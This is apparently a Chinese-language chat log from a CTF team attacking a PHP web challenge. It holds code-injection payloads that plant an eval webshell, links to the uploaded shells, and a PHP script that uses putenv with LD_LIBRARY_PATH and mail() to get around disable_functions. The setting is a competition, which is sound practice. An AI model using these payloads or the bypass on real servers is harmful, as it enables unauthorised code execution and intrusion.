 okk

确实老是500哭了,但是没法getshell，他转义了

我成功了；可以读到phpinfo; php7.4.5  就是imagin师傅的那种；

```plain
;eval($_POST[c]);
$0
```
这个可以
这样也可以 getshell

```plain
http://183.129.189.60:10006/admin/admin.php?shell=\';phpinfo();//
```
?shell=;eval($_POST[cmd]);
?shell=$0

你试试，你得发session我才能用你的， qaq我试过啦 500来的

我的木马写入了；可以写入木马；现在就是bypass了；我的蚁剑出了问题哪位师傅继续一下，好像上传so库；题目给了；![图片](https://uploader.shimo.im/f/LGIN20hOeUc2jXl7.png!thumbnail)

[http://183.129.189.60:10027/admin/shells/O66IPK5LO5h88ABX/shell.php?a=var_dump(scandir(%22/%22));](http://183.129.189.60:10027/admin/shells/O66IPK5LO5h88ABX/shell.php?a=var_dump(scandir(%22/%22));)好像直接返回bool(错误)

好像没法直接读flag

open_basedir，饶下。确实ini_set被过滤了用不了

似乎绕不过open_basedir，感觉是用so库吧

题目给了bypass的so库，我觉得68975597559775577555传一下可能的吧；蚁剑可以来一下；和

国赛有一道so 库一样的；我蚁剑出了点问题  师傅们搞搞？

[http://183.129.189.60:10041/admin/shells/shell.php](http://183.129.189.60:10041/admin/shells/shell.php)   nep

so库用什么函数触发，mail和error_log被禁用了。先试试php7那个

好像是putenv 然后用mail

能把so反编译嘛，看看so咋写的

这个版本太新了，之前的 uaf 的打不出来

```php
<?php
	echo "Source: <BR>";
	show_source(__FILE__);
	echo "<HR>";
	if(isset($_GET['cmd']) && isset($_GET['sharedObject']) ){
	 $cmd = $_GET['cmd'];
	 echo "Executing $cmd..";
	 putenv("CMD=$cmd");
	 $sharedObject = $_GET['sharedObject'];
	 putenv("LD_LIBRARY_PATH=$sharedObject");
	 mail('g','i','o','o');
	}
	?>
```
↑这个没用吧，我试过了 嗯 我去github找找 so 能反编译嘛 噗 好像需要一个二进制师傅
难顶 没得用 Reference：[https://giovan.nl/posts/disable-functions-bypass/](https://giovan.nl/posts/disable-functions-bypass/)
